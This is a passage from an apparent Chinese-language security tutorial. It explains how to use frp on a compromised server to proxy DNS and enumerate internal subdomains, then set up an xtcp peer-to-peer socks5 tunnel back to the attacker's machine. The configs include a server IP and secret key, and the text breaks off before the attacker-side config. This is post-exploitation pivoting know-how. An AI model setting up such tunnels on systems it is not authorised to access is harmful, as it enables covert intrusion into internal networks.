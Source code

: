 然后再客户端添加配置，重新启动服务：

```
[dns]
type = udp
local_ip = 10.10.100.132
local_port = 53
remote_port = 40053
use_encryption = true
use_compression = true
```

使用 dig 命令测试一下对 www.baidu.com 的解析，可以看得到域名成功解析到我们设定的 10.10.232.22，证明内网代理成功

[![](https://p3.ssl.qhimg.com/t01804f6de6c564b85e.png)](https://p3.ssl.qhimg.com/t01804f6de6c564b85e.png)

直接现场造个玩具车轮子指定DNS服务器查询子域名：

[![](https://p5.ssl.qhimg.com/t019fe7faa1778dd086.png)](https://p5.ssl.qhimg.com/t019fe7faa1778dd086.png)

可以看到一些在内网DNS服务器上事先设置好的子域名如 vpn/oa/test/admin/mail/m 等等被解析到了内网IP地址中

### <a class="reference-link" name="3.%E7%82%B9%E5%AF%B9%E7%82%B9(%20stcp%20%E4%B8%8E%20xtcp%20)"></a>3.点对点( stcp 与 xtcp )

安全地暴露内网服务（secret tcp）以及 xtcp 都是frp提供的点对点传输服务，xtcp用于应对在希望传输大量数据且流量不经过服务器的场景，这就直接是一个 p2p 的隧道

根据官方文档，这种协议不能穿透所有类型的 NAT 设备，所以穿透成功率较低。穿透失败时可以尝试 stcp 的方式

其实 stcp 就相当于再添加一次认证，改一次配置文件即可，我们直接测试一下 xtcp

服务器端添加UDP绑定端口：

```
bind_udp_port = 7001
```

客户端1（被入侵的服务器）配置文件：

```
[common]
server_addr = 103.242.135.137
server_port = 7000
tls_enable = true
pool_count = 5


[p2p_socks]
type = xtcp
remote_port = 46075
sk = HjnllUwX5WiRD5Ij
plugin = socks5
```

客户端2（攻击者电脑—我的mac）配置文件：
